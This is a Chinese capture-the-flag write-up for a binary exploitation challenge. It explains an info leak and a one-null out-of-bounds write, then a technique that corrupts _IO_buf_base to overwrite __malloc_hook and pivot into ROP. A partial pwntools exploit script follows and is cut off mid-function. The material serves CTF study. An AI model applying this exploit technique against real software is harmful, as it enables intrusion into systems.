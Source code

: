 题目有意思的地方就在于他的手法了。只能写入一个NULL的情况是非常受限制的，还是看看分析吧。

**1)漏洞位置**

①首先是input_name存在一个没有null结尾的输入，于是可以造成泄露，效果是可以泄露出libc，这个是比较简单的地方。

②main_proc中存在一个越界写，当输入size大于0x300000的时候，tmp_size会保存，之后重新输入之后tmp_size没有更新，导致越界写。

**2)利用思路**

问题1：越界写，且只能写入一个null，看似毫无用处，不过好在可以写入很多个null，于是malloc也可以进行多次，所以第一个任务是要能够写东西到有意义的地方，栈，堆或者libc，通过分配大地址导致堆mmap，我们可以使得分配的内容在libc之前附近的位置，于是通过越界写就可以写入libc了。

问题2：写啥？这个真的是卡了很多人的一个地方，最终的选择，是写了_IO_buf_base，这个题目比较特殊，给出的libc-2.24.so偏移有特殊性，_IO_buf_base比_IO_buf_end小1，而且_IO_buf_end地址的最低位刚好是00，于是向base写入一个00，就可以指向end，之后往end写入malloc_hook的地址，然后循环一下使read_ptr和read_end相等，再次读入，就可以写入malloc_hook了

问题3：如何扩大控制。其实控制了执行流，就比较简单了，我们找了一个read：



```
.text:0000000000400A23 ; 7:   read_content(&amp;name, 0x50);
.text:0000000000400A23 lea     rax, [rbp+name]
.text:0000000000400A27 mov     esi, 50h
.text:0000000000400A2C mov     rdi, rax
.text:0000000000400A2F call    read_content
```

这个read是input_name里的，往栈上写入内容，之后就可以进行rop了。

**3)exp**



```
import sys
from pwn import *
context(os='linux', arch='amd64', log_level='debug')
DEBUG = 0
GDB = 1
libc = ELF('./libc-2.24.so')
if DEBUG:
    p = process('./stackoverflow')
else:
    HOST = sys.argv[1]
    PORT = int(sys.argv[2])
    p = remote(HOST, PORT)
def leak_libc():
    p.sendline('a' * 7)
    p.recvuntil('worrier ' + 'a' * 7 + 'n')
    leak = ((p.recvuntil(',')[:-1]).ljust(8, 'x00'))
    p.info(len(leak))
    addr = u64(leak)
    return addr - 0x7dd52
def main():
    if GDB:
        raw_input()
    libc_base = leak_libc()
    p.info('libc_base: `{``}`'.format(hex(libc_base)))
    p.recvuntil('stackoverflow:')
    p.sendline(str(0x5c28f8 - 0x10))
    p.recvuntil('stackoverflow:')
    p.sendline(str(0x200000))
    p.recvuntil('ropchain:')
    p.send('a') # doesn't matter
    p.recvuntil('stackoverflow:')
    # This will be written at &amp;_IO_buf_base
    malloc_hook_end = libc_base + libc.symbols['__malloc_hook'] + 8
    payload = p64(malloc_hook_end)
    p.send(payload)
```
